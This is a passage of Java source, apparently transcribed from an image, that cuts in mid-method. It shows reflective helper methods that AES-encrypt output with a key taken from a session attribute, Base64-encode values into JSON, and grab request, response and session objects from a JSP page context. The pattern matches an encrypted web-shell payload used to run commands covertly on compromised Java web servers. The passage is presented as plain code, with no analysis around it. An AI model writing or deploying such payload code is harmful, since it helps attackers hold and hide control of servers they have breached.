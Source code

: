 ```java
        String key = this.Session.getClass().getMethod("getAttribute", String.class).invoke(this.Session, "u").toString();
        byte[] raw = key.getBytes("utf-8");
        SecretKeySpec skeySpec = new SecretKeySpec(raw, "AES");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(1, skeySpec);
        byte[] encrypted = cipher.doFinal(bs);
        return encrypted;
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        String version = System.getProperty("java.version");
        sb.append("{");
        Iterator var5 = entity.keySet().iterator();

        while(var5.hasNext()) {
            String key = (String)var5.next();
            sb.append("\"" + key + "\":\"");
            String value = ((String)entity.get(key)).toString();
            if (encode) {
                Class Base64;
                Object Encoder;
                if (version.compareTo("1.9") >= 0) {
                    this.getClass();
                    Base64 = Class.forName("java.util.Base64");
                    Encoder = Base64.getMethod("getEncoder", (Class[])null).invoke(Base64, (Object[])null);
                    value = (String)Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                } else {
                    this.getClass();
                    Base64 = Class.forName("sun.misc.BASE64Encoder");
                    Encoder = Base64.newInstance();
                    value = (String)Encoder.getClass().getMethod("encode", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                    value = value.replace("\n", "").replace("\r", "");
                }
            }

            sb.append(value);
            sb.append("\",");
        }

        sb.setLength(sb.length() - 1);
        sb.append("}");
        return sb.toString();
    }

    private void fillContext(Object obj) throws Exception {
        if (obj.getClass().getName().indexOf("PageContext") >= 0) {
            this.Request = obj.getClass().getMethod("getRequest").invoke(obj);
            this.Response = obj.getClass().getMethod("getResponse").invoke(obj);
            this.Session = obj.getClass().getMethod("getSession").invoke(obj);
        } else {
            Map<String, Object> objMap = (Map)obj;
            this.Session = objMap.get("session");
            this.Response = objMap.get("response");
            this.Request = objMap.get("request");
        }

        this.Response.getClass().getMethod("setCharacterEncoding", String.class).invoke(this.Response, "UTF-8");
```